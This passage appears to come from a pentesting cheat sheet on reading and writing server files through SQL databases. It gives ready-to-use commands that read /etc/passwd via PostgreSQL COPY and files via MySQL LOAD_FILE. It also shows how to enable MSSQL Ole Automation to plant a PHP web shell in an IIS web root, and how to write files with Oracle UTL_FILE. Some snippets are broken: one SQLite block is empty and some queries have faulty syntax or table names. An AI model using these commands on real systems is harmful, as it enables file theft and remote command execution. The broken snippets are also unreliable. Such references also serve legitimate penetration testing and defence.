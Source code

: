 ```sql
CREATE TABLE read_files(output text);
COPY read_files FROM ('/etc/passwd');
SELECT * FROM temp limit 1 offset 0;
```
{% endtab %}

{% tab title="MySQL" %}
The LOAD\_FILE function can be used to read files.

```sql
SELECT * LOAD_FILE('/home/username/myfile.txt')
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Write

{% tabs %}
{% tab title="MSSQL" %}
To write files using `MSSQL`, we **need to enable** [Ole Automatin Procedures](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option?view=sql-server-ver16), which requires admin privileges, and then execute some stored procedures to create the file:

```sql
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
{% endtab %}

{% tab title="OracleSQL" %}
Write files via Oracle Dataabse can be done in a variety of ways. For example we can use **utl\_file:**

```plsql
DECLARE
    V1 VARCHAR(5000) := 'Hello World !';
    F1 UTL_FILE.FILE_TYPE;
BEGIN
    F1 := UTL_FILE.FOPEN('/inetpub/wwwroot','file.txt','W'); --Replace to A mode to append
    UTL_FILE.PUT_LINE(F1,V1);
    UTL_FILE.FCLOSE(F1);
END;
/
```
{% endtab %}
